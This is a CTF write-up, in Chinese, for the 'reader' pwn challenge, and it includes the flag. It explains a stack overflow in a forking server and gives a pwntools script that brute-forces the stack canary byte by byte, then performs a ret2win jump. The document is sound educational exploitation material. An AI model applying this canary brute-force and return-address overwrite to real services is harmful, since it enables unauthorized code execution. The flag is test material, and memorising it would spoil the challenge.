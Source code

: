 # pwn - Reader Writeup
![[reader.png]]  
---  

## FLAG：
`CYBORG{u_hulk_sm4sh3d_th4t_c4n4ry_l1k3_a_ch4mp!!!`

## 觀察：
- 執行檔案：不斷詢問`Enter some data: `，在輸入任意字串後印出`Your data was read. ...`等訊息。
- checksec：canary found
- IDA分析：
	- `main()`：不斷fork出child
	- child：執行`vuln()`
	- `vuln()`：詢問`Enter some data: `、接收 input 以及印出`Your data was read. ...`等訊息。
	- `win()`：印出flag.txt
	- `main()` ![[main.png]]
	- `vuln()` ![[vuln.png]]
	- `win()` ![[win.png]] ![[win_asm.png]]

## 思路：
- `vuln()`輸入字串的地方有bof漏洞，且有個`win()`作為跳轉目標，可以用 **ret2win** 解題。
- 由於所有child的canary都一樣，且child發生stack smash時不影響parent，parent可以繼續fork出child執行程式，可以用 **Bruteforcing forks / threads** 來找出正確的canary。

## 目標：
- 找出stack canary並在覆蓋return address時正確注入。
- 找出`win()`的位址並跳轉。(optional) 注意`$rsp`對齊16bytes的問題。

## 步驟：
1. canary共8個byte，第一個byte會是`'\x00'`。
2. 在canary尾端添加1個可能的byte，直到沒有發生stack smash，表示猜測正確。
3. 猜測canary直到8個byte都解出。
4. 將canary與`win()`的位址注入。獲得FLAG。

> [!NOTE] `$rsp` alignment
> `$rip`跳到`win()`的當下，`$rsp`會對齊16 byte，即`$rsp`的結尾是0x...0(而非0x...8)。接著若在`win()`中執行`push`指令(通常是`push rbp`)會使`$rsp`的值減少8而沒有對齊16 byte，進而造成一些與`$rsp`有關的指令無法執行，產生`SIGBUS` signal 終止程式。  
> - 因此在`$rip`跳到`win()`時，我刻意跳到`<win+5>`的位置避免這個問題。
## Exploit：  

```python
#!/usr/bin/python3.8
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote('0.cloud.chals.io', 10677)
#r = process("./reader")
canary = b'\x00'
byte = [ long_to_bytes(x) for x in range(1, 0x100) ]
  
r.recvuntil(b"Enter some data: ")
  
while len(canary) != 8:
    for b in byte:
        candidate = canary + b
        #print(f"trying: {candidate = }")
        payload = b'A'*72 + candidate
        r.send(payload)
        rst = r.recvuntil(b'Enter some data: ').decode()
        if rst.find('***') == -1:        # no stack smashing
            canary = candidate
            print(f'current {canary = }')
            break
  
payload = b'A'*72 + canary + b'B'*8 + p64(0x40127B)
r.send(payload)
r.interactive()
```

![[flag.png]]